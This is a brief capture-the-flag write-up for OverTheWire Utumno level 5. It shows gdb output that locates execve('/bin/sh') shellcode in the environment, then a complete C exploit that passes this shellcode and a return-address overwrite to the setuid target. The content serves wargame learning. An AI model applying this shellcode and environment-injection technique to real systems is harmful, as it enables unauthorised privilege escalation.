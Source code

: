 # Overthewire Utumno Level 5 Writeup

This one resembles level 2. I just needed to figure out the right start address of `env`. 

```bash
...strip...
(gdb) x/s *((char **)environ)
0xffffdfb1:0xffffdfb1"1\300Ph//shh/bin\211\343PS\211\341\211\302\260\v\315\200" # shellcode in env
```

Use `catch exec` to make gdb pause when the new process spawns. Set a breakpoint after it initialized the new `env`s.

The final exploit:

```c
#include <unistd.h>

int main(){
        char *env[11];
        env[0]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80";
        env[1]=env[2]=env[3]=env[4]=env[5]=env[6]=env[7]=env[8]="";
        env[9]="Aa0Aa1Aa2Aa3Aa4A\xb1\xdf\xff\xff";
        env[10]=NULL;
        execve("/utumno/utumno5",NULL,env);
}
```
